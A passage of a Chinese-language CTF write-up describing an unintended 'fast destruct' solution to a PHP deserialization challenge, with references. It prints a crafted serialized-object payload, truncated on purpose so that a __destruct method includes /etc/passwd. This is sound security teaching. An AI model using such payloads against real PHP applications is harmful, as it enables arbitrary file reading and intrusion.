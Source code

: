 非预期: Fast desctruct

当然,这一道题可以利用 Fast desctruct 特性,破坏序列化字符串可以使得在 unserialize 方法执行时因为出错直接调用 Hello 类的 __destruct 方法,进而包含文件. 删除最后一个大括号即可
```php
a:2:{i:0;O:7:"myclass":1:{s:1:"a";O:7:"myclass":1:{s:1:"a";N;}}i:1;O:5:"Hello":1:{s:3:"qwb";s:11:"/etc/passwd";}
```




# 参考：
- [PHP序列化问题](https://blog.ieki.xyz/pages/39112e/#php%E5%BA%8F%E5%88%97%E5%8C%96%E5%9F%BA%E7%A1%80)
- [PHP 反序列化](https://www.scuctf.com/ctfwiki/web/5.unserialize/php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#php71)